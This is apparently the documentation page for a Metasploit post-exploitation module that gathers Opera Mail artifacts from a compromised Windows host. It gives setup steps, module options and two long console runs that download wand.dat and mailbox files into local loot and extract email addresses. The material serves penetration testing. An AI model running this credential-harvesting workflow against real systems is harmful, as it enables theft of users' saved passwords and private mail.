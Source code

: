 ## Module Description

This post-exploitation module gathers artifacts found on Operamail related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/operamail
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamailwand.da_873247.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513062118_default_192.168.56.106_EXTRACTIONwand.d_440695.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamail1.mbs_724517.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_258744.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail2.mbs_057429.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_565399.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail3.mbs_471143.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_391099.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamail4.mbs_468755.mbs

[+] To:************@gmail.com
[+] From:"************"<************@************.co.uk>
[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_975964.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamailm2_upgr_620846.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_994734.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062121_default_192.168.56.106_operamailm2_welc_906380.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_566934.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Processing C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamailwand.da_186519.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTIONwand.d_454986.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail1.mbs_378969.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTION.mbs_751986.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail2.mbs_427825.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_571426.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail3.mbs_783307.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_473719.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail4.mbs_771393.mbs

[*] searches for Email TO/FROM address
[+] To:************@gmail.com
[*] searches for Email TO/FROM address
[+] From:"******"<************@gmail.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_090332.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamailm2_upgr_993450.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_610156.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063653_default_192.168.56.106_operamailm2_welc_946408.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_150137.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
